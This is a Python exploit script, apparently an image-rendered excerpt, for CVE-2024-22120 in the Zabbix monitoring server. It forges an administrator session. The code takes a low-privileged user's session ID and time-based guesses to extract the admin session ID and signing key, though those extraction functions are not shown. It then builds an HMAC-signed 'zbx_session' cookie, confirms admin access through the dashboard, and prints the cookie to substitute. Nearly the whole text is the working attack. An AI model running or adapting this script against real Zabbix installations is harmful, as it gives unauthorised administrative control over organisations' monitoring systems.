```python
def GenerateAdminSession(sessionid, session_key):
    def sign(data: str) -> str:
        key = session_key.encode()
        return hmac.new(key, data.encode('utf-8'), hashlib.sha256).hexdigest()

    def prepare_data(data: dict) -> str:
        sorted_data = OrderedDict(data.items())
        sorted_data['sign'] = sign(json.dumps(sorted_data, separators=(',', ':')))
        return base64.b64encode(json.dumps(sorted_data, separators=(',', ':')).encode('utf-8')).decode('utf-8')

    session = {
        "sessionid": sessionid,
        "serverCheckResult": True,
        "serverCheckTime": int(time.time())
    }
    res = prepare_data(session)
    return res

def CheckAdminSession(ip, admin_session):
    proxy = {
        "https": "http://127.0.0.1:8083",
        "http": "http://127.0.0.1:8083"
    }
    url = f"http://{ip}/zabbix.php?action=dashboard.view"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Cookie": f"zbx_session={admin_session}"
    }
    resp = requests.get(url=url, headers=headers, timeout=10, proxies=proxy)
    if "Administration" in resp.text and resp.status_code == 200:
        return admin_session
    else:
        return None

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2024-22120-LoginAsAdmin")
    parser.add_argument("--false_time",
                        help="Time to sleep in case of wrong guess(make it smaller than true time, default=1)",
                        default="1")
    parser.add_argument("--true_time",
                        help="Time to sleep in case of right guess(make it bigger than false time, default=10)",
                        default="10")
    parser.add_argument("--ip", help="Zabbix server IP")
    parser.add_argument("--port", help="Zabbix server port(default=10051)", default="10051")
    parser.add_argument("--sid", help="Session ID of low privileged user")
    parser.add_argument("--hostid", help="hostid of any host accessible to user with defined sid")
    args = parser.parse_args()
    admin_sessionid = ExtractAdminSessionId(args.ip, int(args.port), args.sid, args.hostid, int(args.false_time), int(args.true_time))
    session_key = ExtractConfigSessionKey(args.ip, int(args.port), args.sid, args.hostid, int(args.false_time), int(args.true_time))
    admin_session = GenerateAdminSession(admin_sessionid, session_key)
    res = CheckAdminSession(args.ip, admin_session)
    if res is not None:
        print(f"try replace cookie with:\nzbx_session={res}")
    else:
        print("failed")
```
